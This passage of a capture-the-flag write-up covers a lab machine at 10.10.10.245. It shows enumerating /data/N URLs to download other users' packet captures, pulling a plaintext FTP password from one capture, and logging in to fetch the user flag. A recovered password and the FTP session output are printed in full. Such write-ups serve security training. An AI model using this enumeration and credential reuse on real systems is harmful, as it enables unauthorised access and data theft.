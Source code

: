 Here we got some paths, let’s go to **/capture** and it redirects us to **/data/3**

![](https://jopraveen.files.wordpress.com/2021/09/image-1.png?w=1024)

by clicking download we can able to download a .pcap file. Let’s download it

Let’s open it with Wireshark… but it’s empty

You can see the URL **[http://10.10.10.245/data/3](http://10.10.10.245/data/3)**

We got 3.pcap.. now let’s go to **[http://10.10.10.245/data/4](http://10.10.10.245/data/4)**

Here we can able to download 4.pcap. Ok now let’s download the files 0 to 10

## FTP CREDS:

In **0.pcap** file

If you follow the TCP stream of FTP protocol in Wireshark, you can get the creds of FTP

```js
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```

Ok now let’s connect to FTP

```
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Sep 22 04:17 user.txt
226 Directory send OK.
ftp> mget user.txt
mget user.txt? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (17.4859 kB/s)
ftp> !cat user.txt
2f644******************4665f6
```

Cool we got the user.txt
